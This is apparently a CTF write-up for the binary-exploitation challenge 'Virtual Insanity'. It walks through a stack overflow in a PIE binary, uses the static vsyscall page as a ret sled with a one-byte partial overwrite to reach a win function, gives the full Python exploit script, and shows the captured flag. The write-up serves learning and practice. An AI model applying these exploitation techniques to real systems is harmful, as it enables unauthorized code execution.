

# Introduction

Another great CTF that I participated in. There were a lot of good pwn challenges in this CTF, but in terms of skills, I could only solve one challenge, which will be my write-up for that challenge. I will try to find out about other challenges and update this write-up... Because I am currently practicing ASM coding and practicing more Reverse skills.

# Virtual Insanity

## Description

Dancing, Walking, Rearranging Furniture

DISCLAIMER: This challenge doesn't require brute-forcing

## Analysis

First, we will need to use `checksec` to know what `security method` is applied to this binary

```sh
[*] '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

So we can see that the binary has `PIE` and no `Canary`, dive into the source code we know that there is a `win` function which we can let the program return to after finishing the `main` function

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

But the problem here is this binary has `PIE`, and there is no way for us to `ret2win` in a manual way, how about `Stack Pivot`? Still no because the `puts` function is above `read` function and there is `FULL RELRO` so this is impossible to leak the address too. We can think of `Partial Overwrite`, but this way is still impossible because the `main` function calls first, and when it returns, it will return to the function that called it (as known as `__libc_start_call_main()`) to exit.

```sh
   0x55555555523a <main+96>                       mov    rsi, rax               RSI => 0x7fffffffdc10 —▸ 0x7fffffffdfc9 ◂— 0x34365f363878
   0x55555555523d <main+99>                       mov    edi, 0                 EDI => 0
   0x555555555242 <main+104>                      call   read@plt                    <read@plt>

   0x555555555247 <main+109>                      mov    eax, 0                 EAX => 0
   0x55555555524c <main+114>                      leave
 ► 0x55555555524d <main+115>                      ret                                <__libc_start_call_main+128>
    ↓
   0x7ffff7dabd90 <__libc_start_call_main+128>    mov    edi, eax               EDI => 0
   0x7ffff7dabd92 <__libc_start_call_main+130>    call   exit                        <exit>

   0x7ffff7dabd97 <__libc_start_call_main+135>    call   __nptl_deallocate_tsd       <__nptl_deallocate_tsd>

   0x7ffff7dabd9c <__libc_start_call_main+140>    lock dec dword ptr [rip + 0x1f0505]
   0x7ffff7dabda3 <__libc_start_call_main+147>    sete   al
────────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdc38 —▸ 0x7ffff7dabd90 (__libc_start_call_main+128) ◂— mov edi, eax
01:0008│     0x7fffffffdc40 ◂— 0
02:0010│     0x7fffffffdc48 —▸ 0x5555555551da (main) ◂— endbr64
03:0018│     0x7fffffffdc50 ◂— 0x1ffffdd30
04:0020│     0x7fffffffdc58 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
05:0028│     0x7fffffffdc60 ◂— 0
06:0030│     0x7fffffffdc68 ◂— 0xacb58eb5d2e91dc3
07:0038│     0x7fffffffdc70 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
```

It feels pretty hopeless because there's no way to exploit it huh? But once we look carefully we know that there is `vsyscall` mapping page. The `vsyscall` partition is only visible when we enable `emulate` mode for the kernel.

For `wsl2` we can reconfigure the `.wslconfig` file to make it visible to us

```sh
[wsl2]

processors=2

kernelCommandLine = vsyscall=emulate

[experimental]
sparseVhd=true
```

And for `Ubuntu` we can use
```sh
cat /proc/self/maps | grep vsyscall
echo 'GRUB_CMDLINE_LINUX_DEFAULT="vsyscall=emulate"' >> /etc/default/grub
update-grub
reboot
```

And when we finish and check `vmmap` again we can see it



By reading this [article](https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-3.html), we can understand the purpose and functionality of `vsyscall` and `vDSO`. In short, `vsyscall` (`virtual system call`) is a mechanism in the Linux kernel designed to speed up certain system calls. The kernel maps a special memory page into user space, which contains predefined variables and implementations of specific system calls. One notable characteristic of `vsyscall` is that its address is `static`, meaning it is not affected by `PIE`. And as we can see in `__vsyscall_page` symbol which is defined in [vsyscall_emu_64.S](https://codebrowser.dev/linux/linux/arch/x86/entry/vsyscall/vsyscall_emu_64.S.html)

```S
__vsyscall_page:
    mov $__NR_gettimeofday, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_time, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_getcpu, %rax
    syscall
    ret
```

We can see that certain system calls (`gettimeofday`, `time`, `getcpu`) are implemented within the `vsyscall` page, each containing a `ret` instruction. The starting address of the `vsyscall` page is always `0xffffffffff600000`, as it remains static. Because of this, `glibc` knows the exact addresses of all virtual system call handlers. These addresses are defined in the `glibc` source code as follows:

```c
#define VSYSCALL_ADDR_vgettimeofday   0xffffffffff600000
#define VSYSCALL_ADDR_vtime           0xffffffffff600400
#define VSYSCALL_ADDR_vgetcpu         0xffffffffff600800
```

All virtual system call requests are handled within the `__vsyscall_page`, using an offset based on `VSYSCALL_ADDR_vsyscall_name`. The system call number is placed into the `rax` register, and then the native `syscall` instruction for `x86_64` is executed.

## Exploit Development

So with that information about `vsyscall` we can easily take advantage of the `ret` instruction, to let the program return to `rsp+0x10` (in case we stopped at main `ret`)

```sh
00:0000│ rsp 0x7fffffffdc38 —▸ 0x7ffff7dabd90 (__libc_start_call_main+128) ◂— mov edi, eax
01:0008│     0x7fffffffdc40 ◂— 0
02:0010│     0x7fffffffdc48 —▸ 0x5555555551da (main) ◂— endbr64
03:0018│     0x7fffffffdc50 ◂— 0x1ffffdd30
04:0020│     0x7fffffffdc58 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
05:0028│     0x7fffffffdc60 ◂— 0
06:0030│     0x7fffffffdc68 ◂— 0xacb58eb5d2e91dc3
07:0038│     0x7fffffffdc70 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
```


So our exploit will look like this:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*main+109
        c
        '''.format(**locals()), *a, **kw, env={"FLAG": r"TRX{example_flag}"})
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw, env={"FLAG": r"TRX{example_flag}"})

p = start()

# ==================== EXPLOIT ====================

'''
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]

0xffffffffff600000               mov    rax, 0x60     RAX => 0x60
0xffffffffff600007               syscall
0xffffffffff600009               ret
'''

def exploit():


  offset = 40
  vsyscall = 0xffffffffff600000

  payload = b'A' * offset
  payload += p64(vsyscall) * 2
  payload += p8(0xa9)

  s(payload)

  interactive()

if __name__ == '__main__':
  exploit()
```

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/TRX_CTF/dist
$ ./xpl.py REMOTE virtual.ctf.theromanxpl0.it 7011
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to virtual.ctf.theromanxpl0.it on port 7011: Done
[*] Switching to interactive mode
You pathetic pwners are worthless without your precious leaks!!!
IMPOSSIBLE! GRAHHHHHHHHHH
TRX{1_h0p3_y0u_d1dn7_bru73f0rc3_dc85efe0}
[*] Got EOF while reading in interactive
```
